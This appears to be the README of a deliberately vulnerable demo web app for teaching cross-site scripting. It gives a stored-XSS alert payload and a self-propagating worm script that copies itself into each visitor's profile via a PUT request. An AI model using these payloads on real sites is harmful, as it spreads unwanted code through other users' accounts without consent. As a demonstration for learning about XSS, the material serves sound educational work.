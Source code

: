 # Cross-site scripting demonstration

This web application is only used for XSS demonstration, hence its modest appearance

Login -> Edit user -> put the code below in the "Introduction", this will cause an alert to show up everytime a user visit your profile

```html
</textarea> <script>alert("hehe");</script>
```

This will cause an alert to show up everytime a user visit your profile, and copy its entire code to that user's Introduction, making it a self-propagating worm

```html
</textarea>
<script id="worm">
    alert("hehe");

    var headerTag = '<script id="worm">';
    var jsCode = document.getElementById("worm").innerHTML;
    var tailTag = "</" + "script>"; // splitting up the tag to prevent the worm code from ending here
    var wormCode = "</textarea>" + headerTag + jsCode + tailTag;
    window.onload = function () {
        var updatedUser = {
            introduction: wormCode
        };
        var xhr = new XMLHttpRequest();
        xhr.open("PUT", "/editUser", true);
        xhr.setRequestHeader("Content-Type", "application/json");
        xhr.send(JSON.stringify(updatedUser));
    };
</script>
```
